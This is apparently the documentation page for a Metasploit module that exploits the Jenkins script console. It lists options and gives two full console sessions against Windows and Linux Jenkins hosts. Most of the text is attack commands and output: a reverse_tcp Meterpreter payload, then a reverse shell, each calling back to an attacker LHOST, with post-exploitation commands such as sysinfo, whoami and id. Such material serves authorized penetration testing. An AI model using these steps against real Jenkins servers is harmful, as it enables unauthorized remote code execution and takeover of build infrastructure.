 ## Vulnerable Application

  Jenkins can be downloaded from [jenkins.io](https://jenkins.io/) where
  binaries are available for a variety of operating systems. Both LTS and weekly
  builds are available.

  Default settings have the script console enabled and require a valid user
  account in order to access it. A known account can be used with this module by
  setting the `USERNAME` and `PASSWORD` options.

## Verification Steps

  Example steps in this format:

  1. Install the application
  1. Start msfconsole
  1. Do: ```use exploit/multi/http/jenkins_script_console```
  1. Do: ```set RHOST [target host]```
  1. Do: ```set TARGET [target id]```
  1. Do: ```exploit```
  1. You should get a shell.

## Options

  **TARGETURI**

  The path to the target instance of Jenkins.

  **USERNAME**

  A username to an account that has access to the script console. This is only
  necessary if the Jenkins instance has been configured to require
  authentication.

  **PASSWORD**

  A password to an account that has access to the script console. This is only
  necessary if the Jenkins instance has been configured to require
  authentication and you aren't using an API_TOKEN (see below).

  **API_TOKEN**

  An API token to an account that has access to the script console. This is only
  necessary if the Jenkins instance has been configured to require
  authentication and you aren't using a PASSWORD (see above).

## Scenarios

  Example usage against a Windows 7 SP1 x64 bit target running Jenkins 2.19.1.

  ```
  msf > use exploit/multi/http/jenkins_script_console
  msf exploit(jenkins_script_console) > set TARGETURI /
  TARGETURI => /
  msf exploit(jenkins_script_console) > set USERNAME steiner
  USERNAME => steiner
  msf exploit(jenkins_script_console) > set PASSWORD I<3msf!
  PASSWORD => I<3msf!
  msf exploit(jenkins_script_console) > set RHOST 192.168.254.126
  RHOST => 192.168.254.126
  msf exploit(jenkins_script_console) > set RPORT 8080
  RPORT => 8080
  msf exploit(jenkins_script_console) > set PAYLOAD windows/meterpreter/reverse_tcp
  PAYLOAD => windows/meterpreter/reverse_tcp
  msf exploit(jenkins_script_console) > set LHOST 192.168.254.132
  LHOST => 192.168.254.132
  msf exploit(jenkins_script_console) > exploit

  [*] [2016.10.29-18:43:07] Started reverse TCP handler on 192.168.254.132:4444
  [*] [2016.10.29-18:43:07] Checking access to the script console
  [*] [2016.10.29-18:43:07] Logging in...
  [*] [2016.10.29-18:43:07] Using CSRF token: '9623d245b9d60b5ceda72e2d3613431c' (Jenkins-Crumb style)
  [*] [2016.10.29-18:43:07] 192.168.254.126:8080 - Sending command stager...
  [*] [2016.10.29-18:43:08] Command Stager progress -   2.06% done (2048/99626 bytes)
  [*] [2016.10.29-18:43:08] Command Stager progress -   4.11% done (4096/99626 bytes)
  [*] [2016.10.29-18:43:08] Command Stager progress -   6.17% done (6144/99626 bytes)
  [*] [2016.10.29-18:43:09] Command Stager progress -   8.22% done (8192/99626 bytes)
  [*] [2016.10.29-18:43:09] Command Stager progress -  10.28% done (10240/99626 bytes)
  [*] [2016.10.29-18:43:09] Command Stager progress -  12.33% done (12288/99626 bytes)
  [*] [2016.10.29-18:43:10] Command Stager progress -  14.39% done (14336/99626 bytes)
  [*] [2016.10.29-18:43:10] Command Stager progress -  16.45% done (16384/99626 bytes)
  [*] [2016.10.29-18:43:10] Command Stager progress -  18.50% done (18432/99626 bytes)
  [*] [2016.10.29-18:43:11] Command Stager progress -  20.56% done (20480/99626 bytes)
  [*] [2016.10.29-18:43:11] Command Stager progress -  22.61% done (22528/99626 bytes)
  [*] [2016.10.29-18:43:11] Command Stager progress -  24.67% done (24576/99626 bytes)
  [*] [2016.10.29-18:43:12] Command Stager progress -  26.72% done (26624/99626 bytes)
  [*] [2016.10.29-18:43:12] Command Stager progress -  28.78% done (28672/99626 bytes)
  [*] [2016.10.29-18:43:12] Command Stager progress -  30.84% done (30720/99626 bytes)
  [*] [2016.10.29-18:43:13] Command Stager progress -  32.89% done (32768/99626 bytes)
  [*] [2016.10.29-18:43:13] Command Stager progress -  34.95% done (34816/99626 bytes)
  [*] [2016.10.29-18:43:13] Command Stager progress -  37.00% done (36864/99626 bytes)
  [*] [2016.10.29-18:43:14] Command Stager progress -  39.06% done (38912/99626 bytes)
  [*] [2016.10.29-18:43:14] Command Stager progress -  41.11% done (40960/99626 bytes)
  [*] [2016.10.29-18:43:14] Command Stager progress -  43.17% done (43008/99626 bytes)
  [*] [2016.10.29-18:43:15] Command Stager progress -  45.23% done (45056/99626 bytes)
  [*] [2016.10.29-18:43:15] Command Stager progress -  47.28% done (47104/99626 bytes)
  [*] [2016.10.29-18:43:15] Command Stager progress -  49.34% done (49152/99626 bytes)
  [*] [2016.10.29-18:43:16] Command Stager progress -  51.39% done (51200/99626 bytes)
  [*] [2016.10.29-18:43:16] Command Stager progress -  53.45% done (53248/99626 bytes)
  [*] [2016.10.29-18:43:17] Command Stager progress -  55.50% done (55296/99626 bytes)
  [*] [2016.10.29-18:43:17] Command Stager progress -  57.56% done (57344/99626 bytes)
  [*] [2016.10.29-18:43:17] Command Stager progress -  59.61% done (59392/99626 bytes)
  [*] [2016.10.29-18:43:18] Command Stager progress -  61.67% done (61440/99626 bytes)
  [*] [2016.10.29-18:43:18] Command Stager progress -  63.73% done (63488/99626 bytes)
  [*] [2016.10.29-18:43:18] Command Stager progress -  65.78% done (65536/99626 bytes)
  [*] [2016.10.29-18:43:19] Command Stager progress -  67.84% done (67584/99626 bytes)
  [*] [2016.10.29-18:43:19] Command Stager progress -  69.89% done (69632/99626 bytes)
  [*] [2016.10.29-18:43:19] Command Stager progress -  71.95% done (71680/99626 bytes)
  [*] [2016.10.29-18:43:20] Command Stager progress -  74.00% done (73728/99626 bytes)
  [*] [2016.10.29-18:43:20] Command Stager progress -  76.06% done (75776/99626 bytes)
  [*] [2016.10.29-18:43:20] Command Stager progress -  78.12% done (77824/99626 bytes)
  [*] [2016.10.29-18:43:21] Command Stager progress -  80.17% done (79872/99626 bytes)
  [*] [2016.10.29-18:43:21] Command Stager progress -  82.23% done (81920/99626 bytes)
  [*] [2016.10.29-18:43:21] Command Stager progress -  84.28% done (83968/99626 bytes)
  [*] [2016.10.29-18:43:22] Command Stager progress -  86.34% done (86016/99626 bytes)
  [*] [2016.10.29-18:43:22] Command Stager progress -  88.39% done (88064/99626 bytes)
  [*] [2016.10.29-18:43:22] Command Stager progress -  90.45% done (90112/99626 bytes)
  [*] [2016.10.29-18:43:23] Command Stager progress -  92.51% done (92160/99626 bytes)
  [*] [2016.10.29-18:43:23] Command Stager progress -  94.56% done (94208/99626 bytes)
  [*] [2016.10.29-18:43:23] Command Stager progress -  96.62% done (96256/99626 bytes)
  [*] [2016.10.29-18:43:24] Command Stager progress -  98.67% done (98304/99626 bytes)
  [*] [2016.10.29-18:43:24] Sending stage (957999 bytes) to 192.168.254.126
  [*] [2016.10.29-18:43:24] Command Stager progress - 100.00% done (99626/99626 bytes)
  [*] Meterpreter session 1 opened (192.168.254.132:4444 -> 192.168.254.126:49258) at 2016-10-29 18:43:26 -0400

  meterpreter > sysinfo
  Computer        : PWNME-PC
  OS              : Windows 7 (Build 7601, Service Pack 1).
  Architecture    : x64 (Current Process is WOW64)
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/win32
  meterpreter >

  ```

  Example usage against a Linux x64 bit target running Jenkins 2.46.3.

  ```
  msf > use exploit/multi/http/jenkins_script_console
  msf exploit(jenkins_script_console) > set RHOST 172.17.0.1
  RHOST => 172.17.0.1
  msf exploit(jenkins_script_console) > set RPORT 8080
  RPORT => 8080
  msf exploit(jenkins_script_console) > set TARGETURI /
  TARGETURI => /
  msf exploit(jenkins_script_console) > set USERNAME admin
  USERNAME => admin
  msf exploit(jenkins_script_console) > set API_TOKEN 24e0b80d009ed12590ff85866d88c00d
  API_TOKEN => 24e0b80d009ed12590ff85866d88c00d
  msf exploit(jenkins_script_console) > set TARGET 1
  TARGET => 1
  msf exploit(jenkins_script_console) > set PAYLOAD linux/x86/shell/reverse_tcp
  PAYLOAD => linux/x86/shell/reverse_tcp
  msf exploit(jenkins_script_console) > set LHOST 10.0.2.4
  LHOST => 10.0.2.4
  msf exploit(jenkins_script_console) > exploit

  [*] Started reverse TCP handler on 10.0.2.4:4444 
  [*] Checking access to the script console
  [*] Authenticating with token...
  [*] Using CSRF token: 'd41639a6f5721760a8ee3df5d6a71eec' (Jenkins-Crumb style)
  [*] 172.17.0.1:8080 - Sending Linux stager...
  [*] Sending stage (36 bytes) to 172.17.0.2
  [*] Command shell session 1 opened (10.0.2.4:4444 -> 172.17.0.2:53962) at 2017-06-19 16:55:42 -0500
  [!] Deleting /tmp/AsqL5Pg payload file

  whoami
  jenkins
  id
  uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)
  uname -a
  Linux b4b4e715101e 4.4.0-79-generic #100-Ubuntu SMP Wed May 17 19:58:14 UTC 2017 x86_64 GNU/Linux
  ```
